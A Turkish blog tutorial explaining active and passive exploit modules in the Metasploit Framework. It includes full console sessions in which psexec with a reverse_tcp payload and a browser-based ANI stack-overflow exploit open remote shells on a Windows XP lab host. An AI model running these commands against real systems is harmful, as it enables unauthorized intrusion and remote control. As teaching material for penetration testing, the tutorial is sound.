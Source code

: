 ```yaml
---
draft: false
title: MSF İçinde Exploit Çeşitleri
date: 2017-05-13T12:34:00+03:00
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
description: Metasploit Framework içerisinde tüm exploit modülleri aktif ve pasif olarak gruplandırılırlar.
url: /tr/msf-icinde-exploit-cesitleri/
featured_image: /images/metasploit.jpg
weight: 60
translationKey:: msf-exploit-types
categories:
  - Metasploit Framework
tags:
  - cybersecurity
  - metasploit framework
linkTitle: Exploit Çeşitleri
keywords:
  - exploit
---
```



Metasploit Framework içerisinde tüm exploit modülleri **aktif** ve **pasif** olarak gruplandırılırlar.

## Aktif Exploit

Aktif exploitler, belirli bir hedef üzerinde çalışacak ve işlem tamamlanana kadar çalışmaya devam edecektir. Herhangi bir hata ile karşılaştığında çalışmayı durdururlar.

Örneğin, Brute-force modülü hedef bilgisayarda bir shell komut satırı açılana kadar çalışır ve işlemi bitince durur. İşlemlerinin tamamlanması uzun zaman alabileceğinden `-j` parametresi kullanılarak arka plana gönderilebilirler.

Aşağıdaki örnekte, ms08_067_netapi explotinin çalışmaya başlatılıp arka plana gönderildiğini görebilirsiniz.

```bash
msf exploit(ms08_067_netapi) > exploit -j
> Exploit running as background job.
msf exploit(ms08_067_netapi) >
```

## Aktif Exploit Örneği

Bu örnekte, önceden keşif ile bilgileri elde edilen bir hedef bilgisayarın (192.168.1.100) gerekli değişkenleri ayarlanması ve çalışmaya başlaması görülmektedir. Hedef bilgisayarda shell açmak için psexec exploiti ve içerisinde reverse_tcp payload modülü kullanılmaktadır.

```bash
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set RHOST 192.168.1.100
RHOST => 192.168.1.100
msf exploit(psexec) > set PAYLOAD windows/shell/reverse_tcp
PAYLOAD => windows/shell/reverse_tcp
msf exploit(psexec) > set LHOST 192.168.1.5
LHOST => 192.168.1.5
msf exploit(psexec) > set LPORT 4444
LPORT => 4444
msf exploit(psexec) > set SMBUSER victim
SMBUSER => victim
msf exploit(psexec) > set SMBPASS s3cr3t
SMBPASS => s3cr3t
msf exploit(psexec) > exploit

> Connecting to the server...
> Started reverse handler
> Authenticating as user 'victim'...
> Uploading payload...
> Created \hikmEeEM.exe...
> Binding to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.1.100[\svcctl] ...
> Bound to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.1.100[\svcctl] ...
> Obtaining a service manager handle...
> Creating a new service (ciWyCVEp - "MXAVZsCqfRtZwScLdexnD")...
> Closing service handle...
> Opening service...
> Starting the service...
> Removing the service...
> Closing service handle...
> Deleting \hikmEeEM.exe...
> Sending stage (240 bytes)
> Command shell session 1 opened (192.168.1.5:4444 -> 192.168.1.100:1073)

Microsoft Windows XP **[**Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```

## Pasif Exploit

Pasif Exploitler, yerel bilgisayarda (kendi bilgisayarımız) pasif olarak çalışır ve dinlemede kalırlar. Hedef bilgisayarın bir şekilde yerel bilgisayara bağlanmasını beklerler.

Pasif exploitler neredeyse her durumda Web tarayıcı, FTP vb. istemciler üzerine odaklanırlar. Eposta ile gönderilen dosyalar içerisinden bağlantılarda da kullanılabilirler. Pasif exploit çalıştığında beklemeye başlar. Ne zaman bir kullanıcı sitedeki linke tıklar veya bir işlem yapar, işte o zaman dinlemedeki pasif exploit sinyali alır ve hedefte bir **shell** açar.

Arka planda çalışan ve dinleme yapan exploitlerin listesini `sessions` komutuna `-l` parametresi vererek görebilirsiniz. Listeden istediğiniz `ID` numaralı işleme gitmek için `-i` parametresini kullanabilirsiniz.

```bash
msf exploit(ani_loadimage_chunksize) > sessions -l

Active sessions
**===============**

  Id  Description  Tunnel
  --  -----------  ------
  1   Meterpreter  192.168.1.5:52647 -> 192.168.1.100:4444

msf exploit(ani_loadimage_chunksize) > sessions -i 1
> Starting interaction with 1...

meterpreter >
```

## Pasif Exploit Örneği

Aşağıdaki örnekte, loadimage_chunksize exploiti ve reverse_tcp payload u kullanılarak bir kullanıcının Web sayfasına girmesi beklenmeye başlanmaktadır. `LHOST` değişkeni yerelde dinleme yapacak bilgisayar IP adresini, `LPORT` ise yerel bilgisayarda dinlenme yapacak port numarasını ifade eder.

```bash
msf > use exploit/windows/browser/ani_loadimage_chunksize
msf exploit(ani_loadimage_chunksize) > set URIPATH /
URIPATH => /
msf exploit(ani_loadimage_chunksize) > set PAYLOAD windows/shell/reverse_tcp
PAYLOAD => windows/shell/reverse_tcp
msf exploit(ani_loadimage_chunksize) > set LHOST 192.168.1.5
LHOST => 192.168.1.5
msf exploit(ani_loadimage_chunksize) > set LPORT 4444
LPORT => 4444
msf exploit(ani_loadimage_chunksize) > exploit
> Exploit running as background job.

> Started reverse handler
> Using URL: <a href="http://0.0.0.0:8080/">http://0.0.0.0:8080/</a>
>  Local IP: <a href="http://192.168.1.5:8080/">http://192.168.1.5:8080/</a>
> Server started.
msf exploit(ani_loadimage_chunksize) >
> Attempting to exploit ani_loadimage_chunksize
> Sending HTML page to 192.168.1.100:1077...
> Attempting to exploit ani_loadimage_chunksize
> Sending Windows ANI LoadAniIcon**()** Chunk Size Stack Overflow (HTTP) to 192.168.1.100:1077...
> Sending stage (240 bytes)
> Command shell session 2 opened (192.168.1.5:4444 -> 192.168.1.100:1078)

msf exploit(ani_loadimage_chunksize) > sessions -i 2
> Starting interaction with 2...

Microsoft Windows XP **[**Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\Documents and Settings\victim\Desktop>
```

Anlatılmasını istediğiniz diğer başlıkları bize iletebilirsiniz.

## Video Anlatım

{{< youtube liQEKnvzhQE >}}
